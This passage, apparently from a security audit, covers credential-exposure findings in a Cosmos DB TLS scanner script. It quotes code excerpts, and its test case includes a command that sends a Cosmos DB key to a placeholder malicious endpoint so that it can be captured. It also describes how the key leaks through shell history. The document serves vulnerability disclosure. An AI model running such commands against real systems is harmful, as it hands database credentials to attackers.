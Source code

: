 - **Preconditions:**
    - User is tricked into running the script.
    - User is socially engineered to target a malicious endpoint.
    - Attacker controls the malicious endpoint and can capture HTTP requests.

- **Source Code Analysis:**
    1. **Argument Parsing (`_get_parser()`):** Script accepts `--endpoint` and `--authorization-key` as arguments.
        ```python
        def _get_parser():
            parser = argparse.ArgumentParser()
            parser.add_argument("--endpoint", "-e", required=True, help="Endpoint")
            parser.add_argument("--authorization-key", "-k", required=True, help="Key")
            return parser
        ```
    2. **Request Construction and Authorization (`_send_request`, `_get_auth_header`):** Authorization key is used to generate headers for requests to the provided endpoint.
        ```python
        def _get_auth_header(key, ...): # Key is authorization key
            # ... creates authorization header using key ...
            return urllib.parse.quote("type=master&ver=1.0&sig={}".format(signature[:-1]))

        def _send_request(uri, ..., headers=None, ...): # uri is endpoint
            full_url = urllib.parse.urljoin(uri, ...)
            response = session.request(..., full_url, headers=headers, ...) # Headers include auth key
            return response
        ```
    3. **Execution Flow (`main()`):** `main()` uses user-provided endpoint and key to make requests.

- **Security Test Case:**
    1. **Set up a malicious endpoint:** Create a simple HTTP server that logs incoming requests.
    2. **Prepare to run scanner:** Install requirements and obtain a Cosmos DB key.
    3. **Execute against malicious endpoint:** Run `cosmos_tls_scanner.py` with the malicious endpoint and a Cosmos DB key.
        ```bash
        python3 cosmos_tls_scanner.py --endpoint http://<malicious-endpoint-ip>:8080/ --authorization-key <your_cosmos_db_key>
        ```
    4. **Verify credential capture:** Check the malicious server logs for the `authorization` header containing the Cosmos DB key.

#### 3. Credential Exposure via Command-Line Arguments (Command History)

- **Description:**
    The Cosmos TLS Scanner script requires users to provide the Azure Cosmos DB authorization key as a command-line argument. This practice leads to the exposure of sensitive credentials through command history and system logs.

    1. The user executes `cosmos_tls_scanner.py` and provides the authorization key using the `--authorization-key` parameter in the command line.
    2. The command, including the authorization key in plain text, is recorded in the command history of the user's shell (e.g., `.bash_history`, `.zsh_history`, PowerShell history).
    3. System logs may also record command executions, potentially including the authorization key.
    4. If an attacker gains unauthorized access to the user's command history files or system logs, they can retrieve the plaintext authorization key.
    5. The attacker can then use this exposed key to gain unauthorized access to the targeted Azure Cosmos DB account.
